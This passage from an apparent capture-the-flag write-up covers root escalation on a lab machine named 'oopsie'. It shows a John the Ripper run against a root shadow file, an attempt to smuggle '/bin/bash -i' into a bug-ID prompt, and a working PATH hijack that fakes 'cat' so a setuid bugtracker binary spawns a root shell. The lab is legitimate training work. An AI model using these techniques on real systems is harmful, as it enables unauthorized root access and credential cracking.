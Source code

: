 Awesome. Time to whip out John the Ripper

```bash
kali$  john root-shadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

... Well, that didn't yield any results sadly. Another idea is to perform command injection when bugtracker asks for an ID. e.g.

```
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2 | /bin/bash -i
---------------

```

No dice unfortunately. After these few attempts, I made a quick reference to the writeup. Looks like the insecure use of `cat` was that it didn't specify the filepath. This means we could manipulate the path to execute some program called `cat` as root and gain a shell. 


```
robert@oopsie:/tmp$ cd /tmp
robert@oopsie:/tmp$ echo "/bin/bash" > cat
robert@oopsie:/tmp$ chmod a+x cat
robert@oopsie:/tmp$ ls -l
-rwxrwxr-x 1 robert robert   10 Jan 31 09:39 cat
robert@oopsie:/tmp$ which cat
/tmp/cat
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
---------------

root@oopsie:/tmp# whoami
root
root@oopsie:/tmp# less /root/root.txt
af13b0bee69f8a877c3faf667f7beacf
```

Job done!
